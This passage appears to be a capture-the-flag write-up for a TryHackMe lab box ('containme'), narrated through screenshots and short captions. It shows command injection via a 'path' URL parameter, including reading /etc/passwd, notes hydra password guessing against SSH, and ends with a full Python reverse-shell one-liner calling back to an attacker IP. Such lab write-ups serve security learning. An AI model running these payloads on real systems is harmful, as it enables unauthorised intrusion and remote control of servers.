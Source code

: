 <img width="1127" height="217" alt="image" src="https://github.com/user-attachments/assets/01089e3c-d006-48f6-9f4e-78f74f0238a5" />

<br>
<br>
<h2 align="center">python3</h2>
<p align="center">containme.thm/index.php?<code>path</code>=/which python3<br>🤔<br>/usr/bin/python3</p>

<img width="1129" height="223" alt="image" src="https://github.com/user-attachments/assets/48bcffb4-f289-42e4-8a0d-b29ea3dae000" />

<br>
<br>
<h2 align="center">home´s content</h2>
<p align="center">containme.thm/index.php?<code>path</code>=/home/<br>👤 mike</p>

<img width="1127" height="252" alt="image" src="https://github.com/user-attachments/assets/16a47200-12da-4077-b4b5-1a182a4fbd26" />

<br>
<br>
<h2 align="center">mike´s content</h2>
<p align="center">containme.thm/index.php?<code>path</code>=/home/mike/</p>

<img width="1132" height="265" alt="image" src="https://github.com/user-attachments/assets/78285156-06ca-427f-96fe-b7b4bea86730" />

<br>
<br>
<p align="center">After discovering the previous contents, I tried guessing 👤 mike´s password using hydra against port 22 and 8022; unsuccessfully.</p>
<br>
<br>
<h2 align="center">Backtracking</h2>
<p align="center">containme.thm/index.php?<code>path</code>=../../../<br>recalled nikto´s output<br><br>😱</p>

<img width="1127" height="434" alt="image" src="https://github.com/user-attachments/assets/fa11e88e-d59d-4dec-9745-957740d959a3" />

<br>
<br>
<h2 align="center">users</h2>
<p align="center">containme.thm/index.php?<code>path</code>=<code>|</code> cat /etc/passwd | grep bash<br>Recalled nikto´s output<br>used <code>|</code> successfully<br>discovered root and mike<br>note: don´t forget the space after <code>|</code></p>

<img width="1127" height="179" alt="image" src="https://github.com/user-attachments/assets/568eda5a-b843-458e-8b0f-417ad5dc2302" />

<br>
<br>
<h2 align="center">Shell as www-data in host 1</h2>
<p align="center">containme.thm/index.php?<code>path</code>=<code>|</code> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xxx.xxx.xx",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);<br>os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'</p>

